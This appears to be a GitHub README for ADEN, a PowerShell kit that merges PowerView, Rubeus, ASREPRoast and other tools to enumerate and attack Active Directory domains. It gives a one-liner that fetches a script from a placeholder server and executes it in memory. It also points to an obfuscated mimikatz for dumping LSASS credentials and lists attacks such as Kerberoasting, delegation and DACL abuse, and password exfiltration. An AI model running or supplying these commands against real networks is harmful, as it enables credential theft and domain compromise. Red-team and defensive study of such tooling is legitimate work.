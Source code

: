 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- New-GPOImmediateTask
- Invoke-Rubeus


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session. An obfuscated version of mimikatz is included separately in order to dump LSASS: ```lsdmp.ps1```\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
The function ```Invoke-FullEnum``` will launch a full enumeration that will allow you to initially map the  AD environment.

```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
